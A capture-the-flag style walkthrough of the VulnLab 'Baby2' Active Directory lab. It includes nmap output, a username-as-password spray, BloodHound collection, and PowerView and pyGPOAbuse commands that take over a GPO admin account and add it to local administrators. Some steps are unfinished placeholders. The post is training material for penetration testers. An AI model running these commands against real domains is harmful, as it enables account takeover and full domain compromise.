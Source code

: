 ```yaml
---
layout: post
title: VulnLab - Baby2 Walkthrough
date: 16-04-2025
categories: [Machines]
tags: [misconfigurations, ACLs, GPOs, smb, guest]
image: "https://assets.vulnlab.com/baby2_slide.png"
---
```


## Introduction

Welcome back to my Active Directory exploitation series from VulnLab! In the previous post, we explored “Baby”, a beginner-friendly Windows machine that introduced key AD fundamentals like LDAP enumeration and abusing SeBackupPrivilege for privilege escalation.

Today, we’re stepping things up with the second lab in the series — “Baby2”.

Baby2 is a solo, intermediate-level Windows Active Directory machine that dives deeper into AD misconfigurations, with a strong focus on Access Control Lists (ACLs) and Group Policy Objects (GPOs). These are common real-world components of Active Directory environments, and understanding how to identify and abuse misconfigurations around them is crucial for any Pentration Tester or Red Teamer.

> By the end of this lab, you’ll have hands-on experience with:
>- Identifying misconfigured ACLs on domain objects
>- Leveraging GPO-based privilege escalation 
{: .prompt-tip }

## Scanning
```bash
nmap -Pn -T4 -sC -sV  -p53,88,135,139,389,445,464,593,636,3389,5985,9389,49664,49667,49669,49674,49676,63798,63782,63775  10.10.83.184 -oN reports/all_tcp.txt
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-14 01:33 EAT
Nmap scan report for 10.10.83.184 (10.10.83.184)
Host is up (0.26s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 22:34:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2025-04-13T21:30:57
|_Not valid after:  2026-04-13T21:30:57
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BABY2
|   NetBIOS_Domain_Name: BABY2
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: baby2.vl
|   DNS_Computer_Name: dc.baby2.vl
|   DNS_Tree_Name: baby2.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T22:34:55+00:00
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2025-04-12T21:39:46
|_Not valid after:  2025-10-12T21:39:46
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
63775/tcp open  msrpc         Microsoft Windows RPC
63782/tcp open  msrpc         Microsoft Windows RPC
63798/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T22:34:56
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.82 seconds

```

## Enumeration

### SMB

```bash
nxc smb 10.10.83.184 -u 'Guest' -p '' --shares
```

![alt text](/assets/screenshots/baby2/1.png)

Got users

![alt text](/assets/screenshots/baby2/2.png)

Username as Password

```bash
nxc smb 10.10.68.173 -u loots/users.txt -p loots/users.txt --continue-on-success --no-bruteforce
```

![alt text](/assets/screenshots/baby2/3.png)

Enumerating Users

```bash
nxc smb 10.10.68.173 -u Carl.Moore -p Carl.Moore --users
```

![alt text](/assets/screenshots/baby2/4.png)

### Bloodhound

```bash
bloodhound-python -d baby2.vl  -c all -u 'Carl.Moore' -p 'Carl.Moore' -ns 10.10.68.173 --zip
```

![alt text](/assets/screenshots/baby2/5.png)

![alt text](/assets/screenshots/baby2/6.png)

## Initial Access

### Abusing Logon Script

here

![alt text](/assets/screenshots/baby2/7.png)

here

![alt text](/assets/screenshots/baby2/8.png)

dd

Got a shell

![alt text](/assets/screenshots/baby2/9.png)

## Privilege Escalation

### writeDACL

![alt text](/assets/screenshots/baby2/10.png)

```powershell
Import-Module .\PowerView.ps1
```

```powershell
Set-DomainObjectOwner -Identity gpoadm -OwnerIdentity Amelia.Griffiths
```

Confirm

```powershell
Get-ADUser gpoadmin | ForEach-Object {Get-ACL "AD:\$($_.DistingishedNam)" | Select-Object -ExpandProperty Owner}
```

All ACL

```powershell
Add-DomainObjectAcl -PrincipalIdentity Amelia.Griffiths -TargetIdentity gpoadm -Rights All
```

Change Password

```powershell
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
```

```powershell
Set-DomainUserPassword -Identity 'gpoadm' -AccountPassword $NewPassword
```

Finally

```powershell
nxc smb 10.10.70.158 -u gpoadm -p 'Password1234'
```

![alt text](/assets/screenshots/baby2/11.png)

### GPO Abuse

![alt text](/assets/screenshots/baby2/12.png)

GPO Path

![alt text](/assets/screenshots/baby2/13.png)

Abuse GPO

```powershell
python3 pygpoabuse.py 'baby2.vl/gpoadm:Password1234' -gpo-id "6AC1786C-016F-11D2-945F-00C04FB984F9" -command "net localgroup administrators gpoadm /add" -f
```

```powershell
gpupdate /force
```

![alt text](/assets/screenshots/baby2/14.png)

Dump Secrets

![alt text](/assets/screenshots/baby2/15.png)

Root

![alt text](/assets/screenshots/baby2/16.png)

## References

[NetExec Cheatsheet](https://seriotonctf.github.io/2024/03/07/CrackMapExec-and-NetExec-Cheat-Sheet/)

[Logon script | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/logon-script)

[Abusing AD-DACL: WriteDacl - Hacking Articles](https://www.hackingarticles.in/abusing-ad-dacl-writedacl/)

https://github.com/Hackndo/pyGPOAbuse